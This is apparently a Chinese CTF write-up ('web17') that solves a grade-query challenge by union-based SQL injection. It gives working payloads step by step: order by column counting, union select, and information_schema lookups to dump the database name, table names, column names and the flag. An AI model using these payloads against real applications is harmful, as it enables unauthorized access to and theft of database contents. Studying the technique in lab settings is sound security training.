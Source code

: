 # web17



![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618657553771-image-20210116204114667.png)

进入环境

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618657577100-image-20210116204208447.png)

成绩查询

估计是sql注入

先试试

有没有注入点

输入了一个1’

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618657601891-image-20210116204323060.png)

有回显

说明有注入点

查看有多少个字段

使用二分制测试

```sql
1' order by 4#
```

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618657622983-image-20210116204746099.png)



回显正常

说明测试这个表出有4个字段

使用联合查询查看字段所显示的位置

```
-1' union select 1,2,3,4 #
```

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618657656060-image-20210116205304815.png)

然后查询数据库

```sql
-1' union select database(),2,3,4 #
```

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618657669122-image-20210116205716940.png)



得到数据库名

> skctf

然后查询表名

```sql
-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='skctf'#
```

也可以使用这一句

这一句就不需要知道数据库的名字

```sql
-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#
```

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618657687342-image-20210116211523015.png)

得到表明

> fl4g,sc

flag在fl4g里

接下来查字段

```
-1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'fl4g'#
```

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618657704272-image-20210116211703512.png)

得到字段名

查字段的内容

```sql
-1' union select 1,skctf_flag,3,4 from fl4g#
```

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618657720834-image-20210116211818667.png)

得到flag



















